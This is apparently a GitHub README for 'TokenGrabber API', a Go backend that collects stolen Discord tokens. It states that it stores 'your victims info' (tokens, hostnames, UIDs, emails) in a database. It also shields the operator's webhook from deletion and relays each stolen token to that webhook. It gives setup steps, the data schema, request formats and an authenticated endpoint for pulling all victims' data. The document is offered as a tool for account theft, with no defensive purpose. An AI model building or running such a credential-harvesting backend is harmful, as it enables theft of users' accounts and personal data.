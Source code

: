 # TokenGrabber API

Simple REST API to protect your webhook

Code is ugly as hell ik

And please make issues if you have any suggestions
	
## Overview
	
* Protect your webhook from bein deleted
* Store your victims info into a database and access to it at any moment via an Endpoint
* Will automatically send a webhook message with all useful informations
* Will skip invalid tokens to prevent spamming
* Sorted by User ID's so no dupes.

	
## How can I make it work ?

### First 

edit the **.env** file with the values you want
```
WEBHOOK_URL=your webhook
PORT=:8080 # port you wanna use
AUTH_KEY=STRONGKEYNGL # To get all the users don't share it
```
 Open a terminal where the project is located, make sure to have Go installed and configured !
 Then run 
 ```
 go mod tidy
 ```
All dependencies should have been downloaded, Now you can run the go file or build it.
```
go run main.go
OR
go build
```

### Some Explainations 
The `/api/token` endpoint can accept different json requests, but the only important thing is that the `token` is provided
```go
type User struct {
	gorm.Model
	Hostname string `json:"hostname"`
	UID      string `json:"UID"`
	Token    string `json:"token"`
	Email    string `json:"email"`
}
```

```
{
    "token": "YOUR_TOKEN"
}
```

```
{
    "hostname": DESKTOP_GITHUB",
    "token": "YOUR_TOKEN"
}
```
Both jsons are valid and produce these results:

* No Hostname

![nohost](https://media.discordapp.net/attachments/870608841623085100/883086274666332190/Discord_OwzWOrjQk1.png)

* With Hostname

![host](https://media.discordapp.net/attachments/870608841623085100/883086271285719140/Discord_vWg722q0mQ.png)
 
You would like to get all the data from your users ? Make a GET request to the endpoint `/api/users` 

Note that you will need to pass in the **AUTH_KEY** you added in your .env file in the Authorization header.

And you will get a json array as a response
```
[
    {
        "ID": 1,
        "CreatedAt": "2021-09-02T21:58:05.3557696+02:00",
        "UpdatedAt": "2021-09-02T22:39:21.2634461+02:00",
        "DeletedAt": null,
        "hostname": "DESKTOP_GITHUB",
        "UID": "3455255633120462980026282",
        "token": "my_token",
        "email": "email@example.com"
    }
]
```

## TODO
* Improve anti-spamming solution
* MAKE THE CODE LOOK BETTER
* Add more info on user

